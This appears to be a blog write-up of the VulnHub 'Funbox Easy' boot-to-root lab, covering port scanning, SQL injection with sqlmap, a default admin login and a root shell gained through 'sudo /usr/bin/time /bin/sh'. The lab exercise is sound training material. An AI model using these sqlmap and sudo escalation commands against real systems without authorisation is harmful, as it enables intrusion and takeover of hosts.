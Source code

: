 ```yaml
---
title: Funbox Easy
categories: [Proving Grounds Play, Funbox]
tags: [PrivEsc, Sqlmap, timedatectl]
image:
  path: https://www.piratemoo.com/content/images/2022/12/funboxeasy.png
  alt:  Funbox-Easy Machine 🖥️
---
```



## **Description [⤵️](https://www.vulnhub.com/entry/funbox-easy,526/)**

>
💡 Boot2Root ! Easy going, but with this Funbox you have to spend a bit more time. Much more, if you stuck in good traps. But most of the traps have hints, that they are traps.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware
<br>
This works better with VirtualBox rather than VMware.
<br>
{: .prompt-info }

### Let’s find the IP Address first >>

![164-1.png](/Vulnhub-Files/img/Funbox-Easy/164-1.png)

```bash
IP : 10.0.2.17
```
{: .nolineno}

## Port Scan Results ➡️

![164-2.png](/Vulnhub-Files/img/Funbox-Easy/164-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
33060  mysql
```
{: .nolineno}

---

## Web Enumeration ⤵️

![164-3.png](/Vulnhub-Files/img/Funbox-Easy/164-3.png)

![164-4.png](/Vulnhub-Files/img/Funbox-Easy/164-4.png)

![164-5.png](/Vulnhub-Files/img/Funbox-Easy/164-5.png)

So with sql injection on store site I got this →

```
{: .nolineno}
command :
sqlmap -u "<URL>" --risk 3 --level 5
```
{: .nolineno}

![164-6.png](/Vulnhub-Files/img/Funbox-Easy/164-6.png)

![164-7.png](/Vulnhub-Files/img/Funbox-Easy/164-7.png)

```bash
admin : admin
```
{: .nolineno}

![164-8.png](/Vulnhub-Files/img/Funbox-Easy/164-8.png)

Got access →

![164-9.png](/Vulnhub-Files/img/Funbox-Easy/164-9.png)

After accessing that page I got this →

![164-10.png](/Vulnhub-Files/img/Funbox-Easy/164-10.png)

---

## SHELL ➡️

Got something →

![164-11.png](/Vulnhub-Files/img/Funbox-Easy/164-11.png)

![164-12.png](/Vulnhub-Files/img/Funbox-Easy/164-12.png)

Now lets check the `sudo -l` for root access through tony →

![164-13.png](/Vulnhub-Files/img/Funbox-Easy/164-13.png)

Now I got too much options so lets try least interesting one time →

```bash
command : sudo /usr/bin/time /bin/sh
```
{: .nolineno}

![164-14.png](/Vulnhub-Files/img/Funbox-Easy/164-14.png)

![164-15.png](/Vulnhub-Files/img/Funbox-Easy/164-15.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }